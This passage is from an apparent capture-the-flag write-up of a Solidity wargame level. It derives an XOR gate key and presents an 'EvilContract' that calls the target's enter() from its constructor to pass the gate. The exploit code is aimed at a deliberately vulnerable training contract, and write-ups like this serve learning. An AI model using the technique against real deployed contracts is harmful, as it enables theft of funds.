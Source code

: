 So the equation we have : 

**A** =  `uint64(bytes8(keccak256(abi.encodePacked(msg.sender))))`
**B** = `uint64(_gateKey)`
**C** = `uint64(0) - 1`

Here is what we need to do ! Read carefully this wikipedia page if you need to understand how it works on bit level. [Wikipidea XOR Article](https://en.wikipedia.org/wiki/XOR_cipher)
![XOR Wikipedia Screenshot](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138010/01a9f0d0791a8896c4b6109abc576acbfbccade8b44817fa1abd2f245eb99700_lii5bn.png)  

`A ^ B = C , B = ? ==> B = A ^ C`
Which translates to
`gateKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(0) - 1);`

-----
**Exploitation**

Let's craft our *EvilContract*

```js
contract EvilContract { 

    function getOperationResult() public pure returns (uint64){
        uint64 x =0; 
        return x - 1;
    }

   function getGateKey() public view returns (bytes8){ 
       uint64 x = getOperationResult();
     return   bytes8(x ^ uint64(bytes8(keccak256(abi.encodePacked(address(this))))));
   }

   
   constructor(address gateAddress) public {
       GateTwo gateTwoContract= GateTwo(gateAddress);
       bytes8  gateKey =getGateKey();
      bool state= gateTwoContract.enter(gateKey);
     require(state);
   }
   
}
```

We pass our instance address to the constructor.

Challenge solved ✅

> I was late, I couldn't join theCyber club 🥲

## Naught Coin

> RTFM

**Challenge description**
